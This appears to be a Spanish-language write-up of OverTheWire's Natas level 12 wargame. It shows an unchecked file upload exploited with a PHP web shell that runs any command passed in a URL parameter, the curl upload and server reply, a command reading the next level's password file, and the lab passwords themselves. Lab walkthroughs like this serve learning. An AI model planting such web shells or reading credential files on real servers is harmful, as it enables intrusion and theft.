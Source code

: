 # Natas 12

#### URL: http://natas12.natas.labs.overthewire.org/
#### Credenciales: natas12:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB

Podemos subir archivos de un tamaño especifico pero en el codigo no verifican el tipo, podemos subir un archivo php, cambiarle la extension y ejecutarlo en la ruta donde se sube.

Para eso hare uso de un codigo para RCE en https://www.revshells.com/:

``` html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

Subimos el archivo:

```
curl -u natas12:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB http://natas12.natas.labs.overthewire.org/ -F "uploadedfile=@/home/kalcast/Laboratorio/shell.php" -F "filename=shell.php" -F "MAX_FILE_SIZE=1000"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas12", "pass": "yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB" };</script></head>
<body>
<h1>natas12</h1>
<div id="content">
The file <a href="upload/b5vgdqr3rj.php">upload/b5vgdqr3rj.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Vamos a la ruta y con el argumento cmd ejecutamos `cat /etc/natas_webpass/natas13`

![2025-03-20-132644_1137x155_scrot](https://github.com/user-attachments/assets/995c78b5-2e54-4619-8af0-45622db832e7)

`natas13:trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC`




